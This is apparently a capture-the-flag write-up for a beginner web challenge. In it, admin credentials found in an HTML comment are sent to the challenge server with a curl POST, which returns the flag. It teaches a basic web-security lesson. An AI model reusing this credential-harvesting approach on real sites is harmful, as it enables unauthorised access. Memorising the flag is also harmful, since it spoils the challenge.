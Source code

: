 # POST Practice

These website requires authentication, via POST. However, it seems as if someone has defaced our site. Maybe these is still some way to authenticate? `http://165.227.106.113/post.php`

If we look at the source code of this site, we will see as follows:

```html
<h1>This site takes POST data that you have not submitted!</h1><!-- username: admin | password: 71urlkufpsdnlkadsf -->
```

Hence, if we use cURL to POST request it:

```bash
$ curl http://165.227.106.113/post.php -X POST -d 'username=admin&password=71urlkufpsdnlkadsf'
<h1>flag{p0st_d4t4_4ll_d4y}</h1>
```

That means the flag is `flag{p0st_d4t4_4ll_d4y}`
